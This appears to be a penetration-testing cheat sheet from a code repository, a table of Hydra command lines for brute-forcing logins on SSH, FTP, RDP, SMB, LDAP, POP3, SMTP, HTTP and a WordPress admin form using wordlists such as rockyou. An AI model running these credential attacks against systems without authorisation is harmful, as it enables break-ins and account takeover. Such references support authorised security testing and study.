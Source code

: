## Hydra

| **Command** | **Description** |
| --- | --- |
| `hydra -P password-file.txt -v $ip snmp` | Hydra brute force against SNMP |
| `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp` | Hydra FTP known user and rockyou password list |
| `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh` | Hydra SSH using list of users and passwords |
| `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh` | Hydra SSH using a known password and a username list |
| `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt` | Hydra SSH Against Known username on port 22 |
| `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V` | Hydra POP3 Brute Force |
| `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V` | Hydra SMTP Brute Force |
| `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin` | Hydra attack http get 401 login with a dictionary |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip` | Hydra attack Windows Remote Desktop with rockyou |
| `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb` | Hydra brute force SMB user with rockyou: |
| `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'` | Hydra brute force a Wordpress admin login |
| `hydra -L usernames.txt -P passwords.txt $ip smb -V -f` | SMB Brute Forcing |
| `hydra -L users.txt -P passwords.txt $ip ldap2 -V -f` | LDAP Brute Forcing |
